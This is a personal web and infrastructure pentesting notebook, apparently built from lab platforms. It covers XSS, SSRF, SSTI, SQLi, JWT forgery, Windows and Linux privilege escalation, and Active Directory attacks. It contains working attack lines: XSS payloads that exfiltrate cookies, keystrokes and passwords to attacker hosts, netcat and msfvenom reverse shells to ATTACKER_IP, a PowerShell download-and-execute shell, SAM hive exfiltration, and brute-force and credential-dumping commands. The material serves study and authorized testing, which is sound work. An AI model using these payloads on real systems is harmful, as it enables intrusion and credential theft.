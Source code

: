 # METHODOLOGY
1. Look at the available scopes
2. Run Ultimate.sh on it
3. Run shodan.io on the main domain
4. Run smuggler.py python script
5. Read previous bug reports, list them down
6. Get the domain unusual domain
7. Run nuclei on the domain
8. Run FFUF to get the content, save the content
9. Run owasp scanner, visit the entire content
10. Run burp scanner on it
11. List authentication endpoint
12. List authorized access controlled docs/endpoints
13. On the inputs, run test OS command injection, XSS, SQLI, SSTI, SSRF, directory traversal
14. For authentication run authentication attacks
15. For authorization run Auhtorization attacks
16. Then searhcing for logical issues, pass in garbage values, try skipping steps
17. If fav.ico is used by framework, download, get md5, use https://wiki.owasp.org/index.php/OWASP_favicon_database
18. google dorking, site:tryhackme.com, inurl:admin, filetype:pdf, intitle:admin
19.  wayback
20.  github, see repo, old passwords?
21. S3 Buckets S3 Buckets are a storage service provided by Amazon AWS, allowing people to save files and even static website content in the cloud accessible over HTTP and HTTPS. The owner of the files     can set access permissions to either make files public, private and even writable. Sometimes these access permissions are incorrectly set and inadvertently allow access to files that sh    ouldn't be available to the public. The format of the S3 buckets is http(s)://{name}.s3.amazonaws.com where {name} is decided by the owner, such as tryhackme-assets.s3.amazonaws.com. S3     buckets can be discovered in many ways, such as finding the URLs in the website's page source, GitHub repositories, or even automating the process. One common automation method is by usi    ng the company name followed by common terms such as {name}-assets, {name}-www, {name}-public, {name}-private, etc.

### Authntication
 - Username enumeration, bruteforce username and password
 - there may be subltle differences like missing of period "Invalid Username and password." to "Invalid Username and password."
 - You can add column in intruder, for mulitple us pitchfork
 - Response timing may be different for valid usernames, send extra long passwords so that time difference is huge
 - X-Forwarded-For random value may bypass bruteforce protection
 - Sometimes bruteforce blocks IP, and successful login may rest IP blocking
 - User account limiting may be done, so a user, use three passwords for three limit, then while that user blocked try for another user
 - If another account creation is possible, create another account, and use autorize or auth matrix
 - parameter modification maybe? http://www.site.com/page.asp?authenticated=no, something in body u could change?
 - IDOR?
 - Test Password reset functionalities.
 - is there any alternate channel to authentication? weaker maybe?
 - SQL injection? (' OR TRUE --) (username '-- [comment password section])
 - Broken captcha. captcha may be abel to be obtained from a rest api
 - main.js may have path info
 - Re registering already existing user, with extra spaces? 

### Sensitive Data Exposure
 - Metrics path exposed, ex: for prometheus usually /metrics
 
### Access control
 - identifier-based access control. ex: https://test.com?doc=1234 , can u access directly if doc param value matches?
 - check for static files, directly accessible?
 - MUlti-stage, is another step direclty accessible?
 - Platform misconfiguration. use of different header?
 - Referer based? location based?
 - Change json values, example add duplicate fields, ex: in juice shop {"ProductId":1,"BasketId":"6","BasketId":"1","quantity":1}, another baskedID would be of another user.
 - Api Endpoint from which we can directly modify data, try different http methods
### Host Header Attacks:
 - Modify Host header and check if it responds
 - flawed validation in host? starts with, ends with
   Ex: Host: vulnsite.com  then  vulnsite.attackersite.com
 - Duplicate host header
 - Absolute URL
   Ex: GET https://original-site.com
       Host: attackersite.com
 - Multiple Host Headers
   ex: Host: asdasd
	<space> Host: asdasdasd
 - Inject host overrides
   Ex: X-Forwarded-Host: 
 - Possibilites: Password reset poisioning, web cache poisioning, host header auth bypass, Routing based SSRF, SSRF via via flawed request parsing, via malformed request line


### SSRF
 - check if any url is being added in body values or url parameters
 
### Directory Traversal
 - check where path is being loaded, including <img> tags
 - ../../../etc/passwd
 - ....// for bypassing .. stripping
 - /etc/passwd
 - %252f
 - /var/www/images/../../../etc/passwd
 - ../../../etc/passwd%00.png
 

 ###  XSS
  - How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

    Parameters in the URL Query String
    URL File Path
    Sometimes HTTP Headers (although unlikely exploitable in practice)
  - How to test for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

    Comments on a blog
    User profile information
    Website Listings
  - How to test for Dom Based XSS:


DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.


When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval().

  - How to test for Blind XSS:


When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


A popular tool for Blind XSS attacks is xsshunter. Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.
  - To get cookie <script>document.location="attacker-domain"+document.cookie</script>, and then check log
  - If html injection, but script not alerting maybe use payload <iframe src="javascript:alert(`xss`)">
  - session stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
  - Key Logger:<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
  - Business Logic: <script>user.changeEmail('attacker@hacker.thm');</script>
  - bypass script string replace <sscriptcript>alert('THM');</sscriptcript>
  - on image tag, /images/cat.jpg" onload="alert('THM');

### CORS
 - Use the cors script
 - Access-Control-Allow-Origin check if it is randomly generated
 - check for eror parsing like starts with, endswith
 - check if null is sent
 - Can XSS be exploited
 - Can TLS be broken?
 - Can intranet be accessed?

### Server Side Template Injection
 - See where user supplied data is being reflected
 - Send fuzzing data usually {{<%[%'"}}%\]>}} or use the payload listed belows, use ffuf maybe?,but if response appears in another page, no use, only if same place resposne appears then ffuf can be of use
 - If found, read about template engine/secuirty implication sections
 - get idea of different objects and functions
 - Some templates and their SSTI: https://github.com/GoSecure/template-injection-workshop
 - Pentest Sheet: https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti
 - Dgango specific: https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf
 - Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings
 - good lab: https://gosecure.github.io/template-injection-workshop/#7
 - object chaining: ${ product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve("/home/carlos/my_password.txt").toURL().openStream().readAllBytes()?join(" ") }

### SQL
 - UNION BASED
 - https://portswigger.net/web-security/sql-injection/examining-the-database
 - https://portswigger.net/web-security/sql-injection/cheat-sheet
 - https://portswigger.net/web-security/sql-injection/union-attacks
 - FOR oracle db, till we get number of columns right shiftnumber of nulls
 - 1'+UNION+SELECT+table_name,NULL+FROM+all_tables-- 
1'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_GAITNR'--
1'+UNION+SELECT+USERNAME_BHDQJI,PASSWORD_OGTKPZ+FROM+USERS_GAITNR-- 
**LAB PRACTISE: https://github.com/s4n7h0/xvwa**
** PAyload: https://github.com/swisskyrepo/PayloadsAllTheThings **

https://github.com/bugcrowd/bugcrowd_university

### JWT 
				    https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/
 - Change claims, signature might not verified so u can access easily
 - change claims, change alg to none, remove signature except trailing dot, weak verification
 - Brute force signing key. `hashcat -a 0 -m 16500 <jwt> <wordlist>`. Wordlist https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list.  if it is cracked token:<key>. base64encode that key. in jwt edit, new symmetric key, generate, replace `k` with base64 encoded key, go back to repeater and sign
 - only "alg" key is compulsory, rest is optional. Devs use "jwk" ->  - Provides an embedded JSON object representing the key. 
	```json
	{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
	```
	Devs should whitelist keys to verify in the backend, if they just use the key in the jwk, then attacker could insert their own key.
	Steps:
		

   	 With the extension loaded, in Burp's main tab bar, go to the JWT Editor Keys tab.

   	 Generate a new RSA key.

    	Send a request containing a JWT to Burp Repeater.

    	In the message editor, switch to the extension-generated JSON Web Token tab and modify the token's payload however you like.

    	Click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key.

   	 Send the request to test how the server responds.


 - "jku", points to our custom exploit server, use the jwt editor burp plugin, generate, copy and paste to custom exploit server,
```json
{
    "keys":[
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "d3818709-acea-4457-8946-58a9ac958d8b",
    "n": "hzcJ00KMoO6V1hN7MiwBuHVujFV4EmWnEs6SRSgVw0SQM60iV3HmJbbF69dC5hadgoN19QSa12ZCB41Jq7PGfx8cI1RE2WPiy7id8nFfmzKVuEtAVK-lDGfx89YWPOCRl1R7MTrU6lLO9zPbP2FWLpbNm0Ooj602JMgWEIWPz43llz4xgJOmYX8EQia9ntKeOs9-2vjL6OVWjdyR3i8JD0jiFvpQ8iY-ufEdVaRuBjaoeH5N_-dF3SNh7ccK5yoRvWAW9K2NKCrjpyL1wRql775Xdk93zBh9LVj4UBaAPo-NOv06hm1ixia-DI_h9V1Ef4wEbmXhO4ws1X1ahZb-kw"
}
    ]
}	
```
  when signing make sure "type":"jwt" is added, and remove "kid."
 - Servers may use several cryptographic keys for signing different kinds of data, not just JWTs. For this reason, the header of a JWT may contain a kid (Key ID) parameter, which helps the server identify which key to use when verifying the signature. 
	```json
	{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
	```
	Generate to generate a new key in JWK format. Replace the generated value for the k property with a Base64-encoded null byte (AA==).  ../../../../../../../dev/null .
 - make “alg”: “none”, make changes, and then Use an empty signature (i.e. signature = “”), has to have trailing dot.
 - https://pentestbook.six2dez.com/enumeration/webservices/jwt
 - https://kleiton0x00.github.io/posts/json-web-token-exploitation/
 - https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens
 - https://github.com/sergioms/PentestJWT
 - https://medium.com/@netscylla/json-web-token-pentesting-890bc2cf0dcd
 - https://materials.rangeforce.com/tutorial/2019/05/29/Breaking-JWTs/
### XSS payload
 - steal cookies<script>
fetch("https://28871y2murqilrzo0kexuhsd74du1j.burpcollaborator.net",{
method:"POST","mode": "no-cors", body:document.cookie,
})
</script>
 - steal password autofill <input name=user id=user>
<input name=pass id=pass 
onchange="if(this.value.length)fetch('https://f4kkxbyzq4mvh4v1wxaaquoq3h99xy.burpcollaborator.net', {method: 'POST', mode:'no-cors',body: user.value+' '+this.value}),">

### SSRF
 - places to look for
   - When a full URL is used in a parameter in the address bar:
   - A partial URL such as just the hostname: like http://test?s=api
   - Or perhaps only the path of the URL: like http://test?s=/form/
   Deny List
 - Use free website to test if connection is being done `https://webhook.site/`
 - In band SSRF, content is given back to the user
 - http://pingb.in/ , https://requestbin.com/ , https://canarytokens.org/ 
A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern. A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. A specific endpoint to restrict access is the localhost, which may contain server performance data or further sensitive information, so domain names such as localhost and 127.0.0.1 would appear on a deny list. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.


Also, in a cloud environment, it would be beneficial to block access to the IP address 169.254.169.254, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.


Allow List

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with https://website.thm. An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm. The application logic would now allow this input and let an attacker control the internal HTTP request.


Open Redirect

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. Take, for example, the link https://website.thm/link?url=https://tryhackme.com. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

### Open Redirection
  - DOM-based open-redirection vulnerabilities arise when a script writes attacker-controllable data into a sink that can trigger cross-domain navigation.
  Ex: = 'returnUrl = **/url**=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>
  so Attack can be https://origianl_url&url=AttackersURL cause the URL parameter is directly writable by the user
### OWASP top 10 API
  - *API broken user authentication*, Password dump in breach, and 2fa brute force
  - *Broken Function Level authorization*, api endpoint /api/user/453, user id Change may get access, or access for another method ?
  - *Execissive data exposure*, EX: if password reset api, gives the link directly as response as well, or something similar
  - *Mass assignment* extra properties in JSON object passed. Ex: in forgot password {username:asd,password:"asd",isAdmin:false}, could change isAdmin to true
### protype pollution
 - if `__proto__` is filetered, we can use constructor
```

{

"constructor":{

"prototype":{

	"execPath":"cat", "execArgv":[

"flag_iMctq"

]

}}

}```
 - Reading the docs tells us that the fork function accepts an execPath and execArgv arguments.
 - To be honest I still do not understand it completely. https://y3a.github.io/2021/06/15/htb-breaking-grad/ 
	
### graphql
  - no need to send multiple requests, one will work
  - query = is for querying, mutation = is for writing, subscriptio = is to get notification
  - get all possible field names (intropection) {__schema{types{name,fields{name}}}}
  - To get what query that can be performend, and arguements type query {
  __schema {
    queryType {
      fields {
        name
        args {
          name
        }
      }
    }
  }
}
  - Check if any unauthorized access can be done (Authorization bypass)
  - Exessive data exposure, information disclosure
  - 
  - Ex: Once u get schema in insomnia, (may need to add auth manually, not just header), show doc, 
  - https://konghq.com/blog/insomnia-graphql/
  - https://graphql.org/learn/introspection/
  - https://docs.insomnia.rest/insomnia/graphql-queries
  - https://konghq.com/blog/insomnia-graphql/
  -https://book.hacktricks.xyz/pentesting/pentesting-web/graphql#query-__schema-types-name-fields-name
  - https://prog.world/pentest-applications-with-graphql/

tomorrow on insomnia, try this
{"query":"query {\n          organization {\n            id\n            type\n            legacyType\n            flag {\n              client\n              vendor\n              agency\n              individual\n            }\n          }\n          companySelector {\n            items {\n              organizationId\n              organizationRid\n              organizationEnterpriseType\n              organizationType\n              organizationLegacyType\n              typeTitle\n              title\n              photoUrl\n            }\n          }\n        }"}

pes[Cf!Cal

## Mass assignment
 - Mass assignment reflects a scenario where client-side data is automatically bound with server-side objects or class variables. However, hackers exploit the feature by first understanding the application's business logic and sending specially crafted data to the server, acquiring administrative access or inserting tampered data. This functionality is widely exploited in the latest frameworks like Laravel, Code Ignitor etc.
 - like when creating user, `credit` column, u can actually add the value.

### Go specific stuff
	go specific CVEs
OWASP
sync
input processing, large size, floating point
set timeout

size limiter = go io limiter

input validation, negative value ?

cuelang, synk

hydra -l lazie -P /mnt/c/D/SecLists-master/Passwords/Common-Credentials/common-passwords-win.txt 10.10.112.12 imap
	
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.234.98 http-post-form "/login.php:username=admin&password=^PASS^&Submit=Login:Warning"

           
pentester@TryHackMe$ telnet MACHINE_IP 110
Trying MACHINE_IP...
Connected to MACHINE_IP.
Escape character is '^]'.
+OK MACHINE_IP Mail Server POP3 Wed, 15 Sep 2021 11:05:34 +0300 
USER frank
+OK frank
PASS D2xc9CgD
+OK 1 messages (179) octets
STAT
+OK 1 179
LIST
+OK 1 messages (179) octets
1 179
.
RETR 1
+OK
From: Mail Server 
To: Frank 
subject: Sending email with Telnet
Hello Frank,
I am just writing to say hi!
.
QUIT
+OK MACHINE_IP closing connection
Connection closed by foreign host.


# Metasploit
1. may need to migrate if hashdump does not work
2. not all are hashes ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:5ff44baab48ef90b6a2eccc1786d0dd9::: :5... is hash, use online crackstation?
3. search -f <filename> in meterpreter
4. command `background` to get out of session, and use post/... modules

# Privilege Escalation

 - Use the following tools

    LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/
    
    LinEnum: https://github.com/rebootuser/LinEnum
    
    LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
    
    Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
    
    Linux Priv Checker: https://github.com/linted/linuxprivchecker 

- Use GTFO bin, look at how they can be used to escape. https://gtfobins.github.io/  
- if u have sudo permission to somethings
- also we can check if suid or sgid bit are set in gtfo bins
- find place with suid bit set find / -type f -perm -04000 -ls 2>/dev/null
- To crach password use the following command \john.exe  --wordlist=C:\D\SecLists-master\Passwords\Common-Credentials\10k-most-common.txt pass.txt
- .\john.exe pass.txt --show
- manipulating $PATH, if a code execute commands like this system("thm"), change path to point to your binary, the calling code must have setuid set to escalate privilige.
- network mound, if no_root_sqash present
`showmount -e victimsIP`
`mount -o rw ip:/victimdir local_dir/`
make file with suid bit set in local_dir
change owner to root
run in victims machine

 - Check for any cronjob, that we can manipulate
 - check its sudo permissions `sudo -l`
- get capabilites `getcap -r / 2>/dev/null`

# Windws prov sec
NOTE: Checkout winpeas
1. Saved passwords (Search for pwoershell history in `ConsoleHost_history.txt` at C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline )
## when mass deployed
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
## powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
## saved creds
cmdkey /list
runas /savecred /user:admin cmd.exe

## saved IIS configuration
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

## putty proxy configuration
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

## scheduled tasks
 - `schtasks /query /tn vulntask /fo list /v`  this command trims down the output
 - just check the `Task To Run` and `Run As`
 - `icacls <binary_from_task_to_run>`
 - If you can modify binary, then you can run ur own code `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`
	
## AlwaysInstallElevated
 - MSI files, if some registry keys have been set, can run with higher priviliges 
 - keys to check `C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
 - Generate the payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.247.41 LPORT=LOCAL_PORT -f msi -o malicious.msi`
 - Run the payload `C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Insecure Permissions on Service Executable
 - `sc qc <Service_name>`
 - `icacls <binary>`
 - Can u modify it?
 - msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
 - setup a python http server, in powershell download using wget
 - move the original service binary file, since the service binary will be run by another user, change permission  `icacls WService.exe /grant Everyone:F`
 - `sc stop <service>` `sc start <service>`
 - not any binary can be run as service, so be careful

## Unquoted Service Paths
 - If task to run binary path is not properly quoted like `C:\MyPrograms\Disk Sorter Enterprise\bin`
 - sc will look for `C:\MyPrograms\Disk.exe` `C:\MyPrograms\Disk Sorter.exe` and `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` respectively
 - If u can create such files in the directories, like Disk.exe, u can modify which service is executed.

## Insecure Service Permissions
 - not of binary, but of service itself
 - can use tool from https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
 - accesschk64.exe -qlc <service_name>
 - `icacls C:\Users\me\bin.exe /grant Everyone:F`
 - `sc config THMService binPath= "C:\Users\me\bin.exe" obj= LocalSystem`
 - sc stop and start again

## Windows Privliges
 - to check your privilige `whoami /priv`
 - use methods from https://github.com/gtworek/Priv2Admin
 - tryhackme had `SeBackup / SeRestore` lab
```
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.


user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
   

C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

        

And use impacket to retrieve the users' password hashes:
Kali Linux

user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```
## Other stuffs
- search for installed programs and exploit any known vulnerabilities `wmic product get name,version,vendor` may also need to check desktop shortcut, services and other indicator of installed apps.
 - Additional tools to use `https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS` `https://github.com/itm4n/PrivescCheck` `https://github.com/bitsadmin/wesng` `metasploit multi/recon/local_exploit_suggester` 

## SAMBA
 - Interopratibility program for linux and unix to windows SMB
 - `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>`
 - `smbclient //<ip>/anonymous`  // if anon supported
 - `smbget -R smb://<ip>/anonymous`  // recursively download everything
 - `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.244.32`  // recon network file share
 - If u find vulnerability in searchsploit, if not RCE, others thing we can do, like copy files? proftd had something similar, copy ssh key?
 - `mkdir /mnt/NFS` `mount victim_ip:/var /mnt/NFS` `ls -la /mnt/kenobiNFS1`

## Jenkins room
 - check default creds
 - search for functionality to execute commands (it was in build options)
 - privsec https://github.com/samratashok/nishang
 - powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
 - whoami /priv may give SeImpersonatePrivilege 
 - we can impersonate in meterpreter
 - `list_tokens -g`
 - `impersonate_token "BUILTIN\Administrators" `

## SMB
 - basically a request-response protocol over netbios on TCP/IP, unix has open source version that implements it SMB
 - used to share access to files, printers, serial ports and other stuffs
 - client sends request to server, and can send requests to server to perform stuff.
 - SMB share drives on a server that can be connected to and used to view or transfer files
 - enumeration, port scanning or enum4linux https://github.com/CiscoCXSecurity/enum4linux `enum4linux [options] ip`. 
 - port 445 by default, do nmap -sV
 - note down the username, workgroup and interesting share names
 - anonymous connect using `smbclient \\IP\share_name -u username`. try anon login without username
 - download file with `get <filename>`

## NFS
 - Network File System
 - use `nfs-common` package
 - sudo mount -t nfs IP:share /tmp/mount/ -nolock
 - `showmount e IP` to list shares
 - root_squash, (in ur pc, download a bash form internet, set it suid, chmod +s ..., ssh into machine and then run the bash)

## SMTP
 - connect using telnet and VRFY, EXPN, and RCPT TO commands.
 - metasploit auxiliary smtp modules.
## MYSQL
 - username and password already required
 - mestasploit schema dump and hash dump
 
## Active Directory
 - Windows domain is a group of users and computers under the administration of a given business
 - Active Directory acts as a catalogue that holds the information of all of the "objects" that exist on your network.
 - Users and Machine
 - GPOs are distributed to the network via a network share called SYSVOL, 
 -  it might take up to 2 hours for computers to catch up. 
 - force update GRP sync in local computer `gpupdate /force`
 - authentication method kerberos and netNTML
 - kerberos preferred, send username and password to kerberos server, and it returns ticket granting ticket, lookup process online if confused.
 - netNTLM from tryhackme https://tryhackme.com/room/winadbasics  
`The client sends an authentication request to the server they want to access.
The server generates a random number and sends it as a challenge to the client. The client combines their NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification. The server forwards the challenge and the response to the Domain Controller for verification. The domain controller uses the challenge to recalculate the response and compares it to the original response sent by the client. If they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent back to the server. The server forwards the authentication result to the client.`
 - nmap scan, use kerbrute to get usernames? ```./kerbrute_linux_386 userenum usernames.txt --dc domain_controller```
 - ./kerbrute_linux_amd64  userenum userlist.txt -d spookysec.local --dc 10.10.107.161
 - ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. USe impacket tools ```python3.9 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin```. Might need to set dns config to map domain to IP. after the tool, u might get hash
 - Lookup hash in `https://hashcat.net/wiki/doku.php?id=example_hashes`
 - `hashcat -m 18200 -a 0 pass_hash.txt passwordlist.txt` pass_hash.txt must have the full, hashcat_wiki is a good resource
 - form there u can try different things
 - smbclient `smbclient -L \\\\10.10.107.161 -U spookysec.local/svc-admin`
 - `smbclient \\\\10.10.107.161\\backup -U spookysec.local/svc-admin` to connect to the shares.
 - From tryhackme notes :"Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer" `python3.9 /opt/impacket/examples/secretsdump.py spookysec.local/backup@10.10.152.71`
 - Most of the replication related tasks are specified on the Directory Replication Service (DRS) Remote Protocol. The Microsoft API which implements such protocol is called DRSUAPI.
 - look at the format `Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::` uid:rid:lmhash:nthash
 - pass the hash attack using `evil-winrm -u backup -H 19741bde08e135f4b40f1ca9aab45538 -i spookysec.local`
 - another tool https://github.com/GhostPack/Rubeus, need to launch in windows, listens for any kerberos tickets being passed in network `Rubeus.exe harvest /interval:30`
 - Kerberoasting is a post-exploitation attack technique that attempts to crack the password of a service account within the Active Directory (AD). In such an attack, an adversary masquerading as an account user with a service principal name (SPN) requests a ticket, which contains an encrypted password, or Kerberos.
 -  BloodHound to find all Kerberoastable accounts,
 - With rubeus `Rubeus.exe kerberoast` and u can try to crack the hash `hashcat -m 13100 -a 0 hash.txt Pass.txt`.
 - with impacket `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.128.123 -request` and crack the hash
 - AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.
 - NOTE from tryhackme `During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are`
 - For AS-REP roasting, using rubeus, need to add  Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User. Make hash type `Kerberos 5, etype 23, AS-REP`
  - `hashcat -m 18200 hash.txt Pass.txt`
  - Pass the ticket works by dumping the TGT from the LSASS memory of the machine. The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided
  - using mimikatz dump the ticket `sekurlsa::tickets /export` and then use the ticket `kerberos::ptt <ticket>` <ticket> = ticket file path
  - Check if a system is part of domain `systeminfo | findstr Domain`
 - https://github.com/ThePacketBender/notes/blob/master/hashcat.examples.txt

## Machine notes
 - sshkeygen creeate persistence man, can you copy for another user in auhtorized_keys
 - linpeas for info
 - rootsquash ,copy bash as root, set suid bash in network share
 - run the bash from remote session
 - ` ssh paradox@10.10.35.239 -i paradox 2049:localhost:2049` port forwarding if local mounting is not allowed
 - `mount -t nfs localhost:/ nfs/` after mounting locally
 
## MSSQL writeup
 - From HTB starting point
 - nmap to get stuff
 - `smbclient \\\\10.10.107.161\\backup` to get data.
 - python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth.
 - once connected, can `xp_cmdshell` can execute commands, might need to enter the following to enable xp_cmdshell `EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;`
 - Make the victim download `https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------`
